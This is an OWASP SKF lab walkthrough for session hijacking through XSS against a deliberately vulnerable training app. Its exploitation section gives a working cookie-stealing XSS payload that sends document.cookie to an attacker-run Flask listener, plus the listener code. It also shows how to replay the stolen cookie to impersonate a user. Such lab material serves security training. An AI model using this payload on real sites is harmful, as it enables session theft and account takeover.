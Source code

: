 # KBID 39 - HttpOnly Session hijacking

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:session-hijacking-xss
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:session-hijacking-xss
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

{% hint style="warning" %}
This exercise does not work for chrome!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise 
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
``

```
$ python3 <labname>
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}


![Docker Image and write-up thanks to ContraHack!](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

The attacker can compromise the session token by using malicious code or programs running at the client-side. The example shows how the attacker could use an XSS attack to steal the session token. 

Because the server keeps track of the current authenticated user by means of the value of the session cookie, whenever this session cookie gets compromised an attacker is able to impersonate this user by changing his current session cookie with the compromised session cookie in his browsers session storage.

Lets start the application and login with the default credentials.

{% hint style="info" %}
username : admin  
password: admin
{% endhint %}

![](.gitbook/assets/session-hijacking-xss-1.png)

After authenticating to the server we can see that the user has a text-area
field at his dissposal to insert user input. When we press submit we find that
this user supplied input is being reflected on the side of the client. This is a perfect indicator that we might want to start testing for cross site scripting attacks. 

{% hint style="info" %}
Refer to the XSS labs for more information how to test!
{% endhint %}

Now, at this point we established that the application is suspectible for cross site scripting attacks after playing around with some payloads. However, the goal for this lab is to obtain the users session cookie to perform a session hijacking attack and to be able to impersonate the user on the server.

We can tell if we can hijack the session information by inspecting the cookies and see if the HTTP/HttpOnly attribute is enabled for the session cookie.

Highlighted in red we find this attribute and see that it is not activated for this application

![](.gitbook/assets/session-hijacking-xss-2.png)

Now, we can inject the a piece of malicious javascript to see if we can prompt an alert box that displays the applications session information.

![](.gitbook/assets/session-hijacking-xss-3.png)

![](.gitbook/assets/session-hijacking-xss-4.png)

## Exploitation

Now that we have determined that we can 

1) inject malicious javascript

2) The HttpOnly attribute is not set for the session cookie

We can start building our malicious payload and hijack the session information to our malicious webserver.

```python
from flask import Flask, request, url_for, render_template, redirect, make_response
import requests

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/<steal_cookie>", methods=['GET'])
def start(steal_cookie):
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to &gt; app.py and run the commands below to install some dependencies.

```text
$ pip install flask
$ pip install requests
$ python app.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

Now that the service is running we want to inject the malicious piece of javascript that is responsible for hijacking the victims session information.

![](.gitbook/assets/session-hijacking-xss-5.png)

```html
<script>new Image().src="http://localhost:1337/?stolen_cookie="+document.cookie;</script>
```

After injecting the malicious javascript in the text-area field we see the following GET request entering the server logs.

![](.gitbook/assets/session-hijacking-xss-6.png)

The attacker can now change the session cookie value in his browers console by the session cookie that we hijacked with our malicous payload to "hijack" the victims account. 

